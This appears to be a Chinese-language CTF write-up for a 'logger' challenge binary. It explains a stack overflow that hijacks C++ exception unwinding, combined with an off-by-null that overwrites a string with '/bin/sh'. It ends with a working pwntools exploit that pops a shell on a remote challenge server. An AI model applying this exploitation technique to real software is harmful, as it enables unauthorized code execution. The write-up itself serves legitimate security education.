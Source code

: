 由于`char *`可以cast到`const char *`，因此我们如果能跳转到这个地方，就有机会执行命令。

在`warn`函数中，通过栈溢出，我们能够控制rbp和ret addr，而C++正是利用了返回地址来判断被谁catch，
具体可以看[这篇文章](https://xz.aliyun.com/t/12967)。因此，
如果我们能把返回地址修改为`0x401bc2 + 1`，就可以被`0x401bc7`块catch。经调试，
跳转过去后，rdx为1，会跳过`_Unwind_Resume`，并且rdi为"Buffer Overflow"的地址。
最后我们只需要把这个字符串改成"/bin/sh"就可以拿shell了。

`trace`函数可以修改`record`字符串数组，只要字符串首字符为`'\0'`就能覆写字符串，
并且存在off-by-null，而"Buffer Overflow"是最后一个字符串，因此写满倒数第二个字符串，
就可以覆写最后一个字符串。

## EXPLOIT

```python
from pwn import *
context.terminal = ['tmux','splitw','-h']
GOLD_TEXT = lambda x: f'\x1b[33m{x}\x1b[0m'
EXE = './logger'

def payload(lo:int):
    global sh
    if lo:
        sh = process(EXE)
        if lo & 2:
            gdb.attach(sh, 'b __cxa_throw')
    else:
        sh = remote('139.155.126.78', 35333)
    elf = ELF(EXE)

    def trace(tosend: bytes):
        sh.sendlineafter(b'****************', b'1')
        sh.sendafter(b'details', tosend)
        sh.sendlineafter(b'check', b'n')

    def warn(tosend: bytes):
        sh.sendlineafter(b'****************', b'2')
        sh.sendafter(b'message', tosend)

    for _ in range(7):
        trace(b'skip')
    trace(b'fillfillfillfill') # clear 'B' in "Buffer Overflow"
    trace(b'/bin/sh'.ljust(0xf, b'\0'))
    warn(b'0'*0x70 + p64(0x404800) + p64(0x401bc3))

    sh.clean()
    sh.interactive()
```

![flag](assets/loggerFlag.png)
